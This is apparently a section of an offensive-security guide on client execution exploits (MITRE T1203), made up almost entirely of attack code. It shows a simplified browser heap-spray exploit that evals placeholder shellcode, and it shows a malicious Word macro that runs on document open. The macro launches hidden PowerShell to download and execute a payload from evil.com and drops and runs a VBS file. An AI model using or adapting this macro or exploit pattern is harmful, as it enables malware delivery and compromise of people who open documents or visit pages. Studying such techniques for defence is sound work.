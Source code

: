 
## 5. Exploitation for Client Execution (T1203)

### 5.1 Browser Exploitation

```javascript
// Exploit CVE example (simplified)
function exploit() {
    // Heap spray
    var spray = unescape("%u9090%u9090");
    while(spray.length < 0x10000) spray += spray;
    
    var chunks = [];
    for(var i = 0; i < 200; i++) {
        chunks[i] = spray.substring(0, spray.length - 2);
    }
    
    // Trigger vulnerability
    document.getElementById('vulnerable').src = "exploit://trigger";
    
    // Shellcode execution
    var shellcode = "\x90\x90\x90...";
    eval(shellcode);
}
```

### 5.2 Office Macro Execution

```vba
' Malicious Word Macro
Sub AutoOpen()
    ExecutePayload
End Sub

Sub Document_Open()
    ExecutePayload
End Sub

Sub ExecutePayload()
    Dim shell As Object
    Set shell = CreateObject("WScript.Shell")
    
    ' Download and execute payload
    shell.Run "powershell.exe -WindowStyle Hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')""", 0, False
    
    ' Alternative: Drop and execute
    Dim fso As Object
    Set fso = CreateObject("Scripting.FileSystemObject")
    
    Dim file As Object
    Set file = fso.CreateTextFile("C:\Users\Public\update.vbs", True)
    file.WriteLine "CreateObject(""WScript.Shell"").Run ""calc.exe"""
    file.Close
    
    shell.Run "wscript.exe C:\Users\Public\update.vbs", 0, False
End Sub
```
